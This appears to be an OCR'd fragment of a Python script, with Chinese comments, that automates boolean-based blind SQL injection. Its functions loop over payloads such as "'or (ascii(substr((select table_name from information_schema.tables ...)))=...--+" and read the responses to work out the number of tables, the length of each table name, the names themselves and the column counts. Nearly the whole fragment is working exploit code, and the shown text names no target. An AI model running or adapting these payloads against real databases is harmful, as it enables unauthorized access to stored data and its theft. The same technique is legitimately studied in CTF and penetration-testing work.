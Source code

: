 ```python
    print("数据库名为", database)
    return database

#获取表数量
def get_tables_num(database):
    table_num=0
    while True:
        #print(table_num)
        payload = f"-1' OR((select count(table_name) from information_schema.tables where table_schema='{database}')={table_num}) --+"  # 这里1'and 也可以是-1'or 或者'or
        if send_payload(payload):
            print("表数量为", table_num)
            return table_num
        table_num+=1


#获取各个表名长度
def get_tables_name_length(database,table_num):
    table_name_length_list=[]
    for i in range(0, table_num):
        table_name_length = 0
        while True:
            #payload = f"'or length((select table_name from information_schema.tables where table_schema='{database}' limit{i},1))={table_name_length} --+"
            payload = f"'or length((select table_name from information_schema.tables where table_schema='{database}' limit {i},1))={table_name_length} --+"
            if send_payload(payload):
                print(f"第{i + 1}个表名长度为", table_name_length)
                table_name_length_list.append(table_name_length)
                break
            table_name_length +=1
    return table_name_length_list

#获取表名
def get_table_name(database,table_num,table_name_length_list):
    table_name_list=[]
    for i in range(0,table_num):
        table_name=""
        for j in range(1,table_name_length_list[i]+1):
            for char in chars:
                payload=f"'or (ascii(substr((select table_name from information_schema.tables where table_schema='{database}' limit {i},1),{j},1)))={ord(char)}--+"
                if send_payload(payload):
                    table_name+=char
                    #print(1)
                    break
        print(f"第{i + 1}个表名为", table_name)
        table_name_list.append(table_name)
    return table_name_list


#获取列的数量
def get_column_num(database,table_name_list):
    for table_name in table_name_list:
        column_num=0
        while True:
            #print(column_num)
            payload=f"' or (select count(column_name) from information_schema.columns where table_name='{table_name}')={column_num} --+"
            if send_payload(payload):
                print(f"{table_name}表的列数为:",column_num)
                break
            column_num+=1
```